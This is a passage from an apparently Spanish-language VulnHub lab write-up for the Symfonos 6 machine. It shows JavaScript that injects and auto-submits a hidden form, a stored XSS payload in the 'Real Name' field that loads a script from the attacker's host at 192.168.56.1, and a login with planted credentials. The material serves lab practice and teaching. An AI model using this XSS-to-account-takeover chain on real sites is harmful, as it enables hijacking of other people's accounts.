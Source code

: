 ```bash
txt += '<input type="hidden" name="jabber_id" value=""/>';
txt += '<input type="hidden" name="notify_type" value="0"/>';
txt += '<input type="hidden" name="time_zone" value="0"/>';
txt += '<input type="hidden" name="group_in" value="1"/>';
txt += '</form>';

var d1 = document.getElementById('menu');
d1.insertAdjacentHTML('afterend', txt);
document.getElementById("hacked_form").submit();
```

En el campo Real Name copiamos el siguiente payload.

```bash
"><script SRC=http://192.168.56.1/hacking.js></script>
```

Ahora iniciamos la escucha con 'python3 -m http.server' en el directorio que contiene nuestro archivo 'hacking.js'. Después de guardar el payload en 'Real Name', procedemos a insertar un comentario para ejecutar nuestro código. Personalmente, lo ingresé antes de cambiar el 'Real Name' para evitar errores.

![](/assets/images/vulnhub-writeup-symfonos6/comentario.png)

Una vez que nos llego esta solicitud a nuestro servidor python, probamos las credenciales hacker:12345678.
